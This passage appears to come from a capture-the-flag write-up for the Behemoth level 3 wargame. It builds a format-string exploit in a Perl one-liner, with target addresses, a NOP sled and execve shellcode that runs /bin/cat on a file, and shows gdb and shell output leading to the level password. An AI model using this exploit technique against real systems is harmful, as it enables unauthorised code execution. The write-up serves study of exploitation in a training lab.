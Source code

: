 As we can see the address overwrite worked on the lower bound and now we just need to overwrite the upper bound with ffff. We subtract our desired bound from our lower bound in this case ffff - dd80. Then account for the - we added. Turning our string into the following.

{% highlight perl %}
perl -e 'print "\x90\x97\x04\x08" . "\x92\x97\x04\x08" . "\x90"x64 . "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x2f\x62\x32\x70\x68\x2f\x74\x6d\x70\x89\xe1\x52\x89\xe2\x51\x53\x89\xe1\xcd\x80" ."-%56590u" . "-%6" . "\$n" . "-%8"."830u" . "%7\$n"' > input.txt
{% endhighlight %}

{% highlight bash %}
(gdb) run < input.txt
-- SNIP --
EMPTY LINES CUT OUT
-- SNIP --
Process 22933 is executing new program: /bin/cat
/bin/cat: /tmp/b2p: Permission denied
[Inferior 1 (process 22933) exited with code 01]
{% endhighlight %}

Now we just run it in user space and we will have the password.

{% highlight bash %}
behemoth3@melinda:/tmp/bh3$ ./invoker.sh /behemoth/behemoth3 < input.txt
-- SNIP --
EMPTY LINES CUT OUT
-- SNIP --

[OMITTED]
{% endhighlight %}

There is our password.